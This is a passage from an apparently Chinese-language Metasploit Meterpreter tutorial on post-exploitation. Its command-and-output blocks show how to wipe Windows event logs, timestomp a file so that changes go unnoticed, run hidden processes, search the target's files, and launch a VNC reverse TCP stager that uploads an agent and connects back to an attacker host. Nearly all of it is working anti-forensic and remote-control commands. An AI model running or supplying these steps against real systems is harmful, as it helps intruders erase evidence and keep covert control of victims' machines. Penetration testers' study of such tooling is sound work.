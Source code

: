 ```shell
meterpreter > clearev
[*] Wiping 0 records from Application...
[*] Wiping 0 records from System...
```

### 修改文件时间戳

对目标系统某个文件进行操作后，默认文件的时间会更新，在一些谨慎的管理员眼中很容易识别出文件已经被修改过或查阅过，此时需要将文件的时间戳改变为初始的状态。

```shell
# 查看文件的MACE值得，MACE是四个时间的首字母
meterpreter > timestomp -v secret.doc
Modified      : 2016-06-04 22:25:44 +0800
Accessed      : 2016-06-04 23:20:41 +0800
Created       : 2016-06-04 22:25:44 +0800
Entry Modified: 2016-06-04 22:30:36 +0800
# 修改目标文件时间
meterpreter > timestomp secret.doc -c "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -a "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -m "1/15/2015 15:15:25"
meterpreter > timestomp secret.doc -e "1/15/2015 15:15:25"
# 以另一个文件的时间戳为基础修改
meterpreter > timestomp secret.doc -f C:\\WINNT\\system32\\cmd.exe
```

### 在目标系统上执行和搜索文件

同属于文件系统命令，上传下载都很简单，搜索和执行文件由于有特殊参数所以这里点一下。

```shell
# 运行目标机器上程序
meterpreter > execute -f c:\\windows\\notepad.exe
Process 2132 created.
# 加上-H表示隐藏的执行
meterpreter > execute -f -H c:\\windows\\notepad.exe
# 在指定目录下搜索指定文件
meterpreter > search -d c:\\windows\\system32 -f hosts
```

### 在目标系统上使用vnc远程桌面

为了可以实时观察目标主机桌面操作情况，可以开始vnc服务，原理是上传vnc的服务，远程执行并连接。vnc不同与3389的远程桌面，若用远程桌面连接则会中断用户操作。

```shell
# 开启目标主机vnc服务
meterpreter > run vnc
[*] Creating a VNC reverse tcp stager: LHOST=192.168.3.12 LPORT=4545
[*] Running payload handler
[*] VNC stager executable 73802 bytes long
[*] Uploaded the VNC agent to C:\DOCUME~1\wangjun\LOCALS~1\Temp\iwbSDvEUrDEU.exe (must be deleted manually)
[*] Executing the VNC agent with endpoint 192.168.3.12:4545...
```
